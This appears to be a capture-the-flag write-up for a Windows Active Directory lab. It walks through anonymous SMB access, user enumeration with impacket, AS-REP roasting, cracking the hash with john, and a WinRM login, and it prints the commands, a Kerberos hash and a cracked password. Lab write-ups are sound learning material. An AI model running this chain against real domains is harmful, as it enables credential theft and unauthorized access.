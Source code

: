 We can connect to the `VulnNet-Business-Anonymous` and `VulnNet-Enterprise-Anonymous`  shares

`smbclient \\\\10.10.189.145\\share_name`

We grab 6 txt files and can enum user names? from them
```
Johnny Leet
Tony Skid
Jack Goldenhand
Alexa Whitehat
```

---

we can use impacket's `lookupsid.py` to enumerate users
`python3 lookupsid.py guest@10.10.127.164`

This gives us a list of user names
```
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

---

### checking for asrep roasting

Now that we have user names, we throw them into a users.txt file and check to see if they are vulnerable to asrep roasting

`python3 /tmp/impacket/examples/GetNPUsers.py vulnnet-rst.local/ -usersfile users.txt -dc-ip 10.10.127.164 -request -no-pass`

This returns a TGT ticket for a-whitehate
`$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:667424d94b7a72983e3e793ec301e7e3$be00d5d0cb8f633d9ee19f00d7dd51cc94e891b27f1da985d0a683fee25617c465327be3ee865cbed48857903b23a0ac1e3ee2c2c2cca5e89f8995baf11bf2cbf0ddf37306261e20e7b75695945f4ae5fde75613473be2dd5085dc981c4643be869eea513fc622821d682ac0ce92d5ab7c89284a1886ba9378429ea71d7481ccd13c3271762ada8fc23111e0810225d3d0bf542ddf796825c5d7d795540c553911bd783b9d5a17a954c7511168753b329ab9d60a75bdc4a549091843c84025ee7633116ed7387f0a32fe9f0257bd5e41e667dd342ebc8af377273b83f40d71b02b7f0f75e0ea3b8e0a26599e35bb8940dbf1b7dd3a26`

We can then crack this by throwing it into `crack.txt` and running john
`john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt`

This gives us the password `tj072889*`

now that we have creds, we can try to access SYSLOG and NETLOGON smb shares with t-skid's creds

`smbclient \\\\10.10.127.164\\SYSLOG -U t-skid`

This gives us a bunch of files, namely `resetpassword.vbs`
which contain's a-whitehat's creds

We can user `evil-winrm` with a-whitehat's creds to grab the user.txt in `c:\users\enterprise-core-vn\desktop`

